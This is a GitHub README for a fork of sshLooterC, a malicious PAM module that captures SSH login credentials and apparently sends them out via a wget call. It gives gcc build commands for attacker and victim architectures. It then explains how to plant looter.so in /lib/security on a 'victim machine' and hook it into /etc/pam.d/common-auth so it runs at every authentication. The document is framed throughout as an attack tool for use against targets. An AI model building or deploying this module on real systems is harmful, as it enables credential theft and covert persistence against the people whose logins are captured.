 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I have coded a C file, <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* [Optional] to compile the program for 32bit arch you need to install <b>gcc-multilib</b>on a 64bit system
* PAM dev library: <b>libpam0g-dev</b>

# Compilation
`gcc callLooter.c -o callLooter -m32 -ldl`
 `gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c`
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b>the following lines:
`auth optional looter.so`
`account optional looter.so`

# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
